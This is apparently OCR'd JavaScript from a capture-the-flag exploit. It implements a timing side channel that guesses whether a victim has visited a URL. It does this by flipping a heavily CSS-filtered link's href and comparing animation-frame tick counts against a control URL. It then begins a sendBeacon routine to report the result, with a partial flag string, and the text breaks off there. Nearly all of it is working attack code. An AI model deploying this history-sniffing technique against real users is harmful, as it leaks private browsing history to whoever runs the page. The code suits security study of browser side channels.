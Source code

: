 ```python

            function generateUnvisitedUrl () {
                return 'https://' + Math.random() + '/' + Date.now();
            }
            
            testButton.addEventListener('click', function () {
                basisUrl = generateUnvisitedUrl();
                controlUrl = generateUnvisitedUrl();
                experimentUrl = urlInput.value;
                console.log({ experimentUrl })
                entryDisplay.remove();
                
                document.body.style.overflow = 'hidden';
                
                targetLink = document.createElement('a');
                targetLink.id = 'target';
                targetLink.href = basisUrl;
                
                var garbageText = '業雲多受片主...'.repeat(28);
                targetLink.appendChild(document.createTextNode(garbageText));
                
                targetLink.style.display = 'block';
                targetLink.style.width = '5px';
                targetLink.style.fontSize = '2px';
                targetLink.style.outlineWidth = '24px';
                targetLink.style.textAlign = 'center';
                targetLink.style.filter =
                    'contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%)';
                targetLink.style.textShadow = '16px 16px 10px #fefffe';
                targetLink.style.transform = 'perspective(100px) rotateY(37deg)';
                
                document.body.appendChild(targetLink);
                
                requestAnimationFrame(function () {
                    requestAnimationFrame(function () {
                        runTestStage(false);
                    });
                });
            });
            
            function runTestStage (isExperimentStage) {
                var testUrl = isExperimentStage ? experimentUrl : controlUrl;
                startCountingTicks();
                startOscillatingHref(testUrl);
                
                setTimeout(async function () {
                    stopOscillatingHref();
                    
                    if (!isExperimentStage) {
                        controlTickCount = stopCountingTicks();
                        runTestStage(true);
                        return;
                    }
                    
                    var experimentTickCount = stopCountingTicks();
                    targetLink.remove();
                    
                    var ratio = experimentTickCount / controlTickCount;
                    console.log("RATIO", experimentTickCount, controlTickCount, ratio)
                    var likelyVisited = ratio < 0.7;
                   
                    async function sendBeacon(cond){
                        let url = opener ? opener.location.hash.substring(1) : "flag{g68r|a";
```